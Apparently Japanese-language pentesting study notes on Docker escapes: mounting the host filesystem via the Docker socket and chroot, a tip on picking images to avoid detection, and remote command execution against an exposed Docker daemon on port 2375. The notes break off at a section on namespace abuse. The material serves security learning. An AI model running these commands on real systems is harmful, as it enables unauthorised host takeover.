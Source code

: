 ```sh
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

- ホスト OS の / を、ゲスト OS の /mnt にマウントしている。
- 軽量なため alpine がよく使われるが、システムに既に存在するイメージを使用する方が検出されにくい。
- chroot で /mnt をコンテナのルートディレクトリに変更している。

ホスト OS の Docker デーモンと通信する UNIX ソケットがゲスト OS から見えている場合、ホスト OS で Docker コマンドを実行するのと同じことになる。

```sh
root@2225bfdee7ec:~# docker context inspect
[
    {
        "Name": "default",
        "Metadata": {},
        "Endpoints": {
            "docker": {
                "Host": "unix:///var/run/docker.sock",
                "SkipTLSVerify": false
            }
        },
        "TLSMaterial": {},
        "Storage": {
            "MetadataPath": "\u003cIN MEMORY\u003e",
            "TLSPath": "\u003cIN MEMORY\u003e"
        }
    }
]
```

### 公開された Docker デーモンによる RCE

Docker デーモンが UNIX ソケットではなく TCP ソケットをリッスンする場合もある。（リモート管理のため）

通常は 2375 ポート。

```sh
PORT    STATE SERVICE VERSION
2375/tcp open docker Docker 20.10.20 (API 1.41)
```

```sh
# アクセスできることを確認
curl http://10.10.34.80:2375/version
```

```sh
# リモート実行の例
docker -H tcp://10.10.34.80:2375 ps
```

### 名前空間の悪用

名前空間は、プロセス、ファイル、メモリなどのシステムリソースを他の名前空間から分離する。Linux 上で実行されるすべてのプロセスには、次の 2 つのものが割り当てられる。

1. 名前空間
2. プロセス識別子 ( PID )
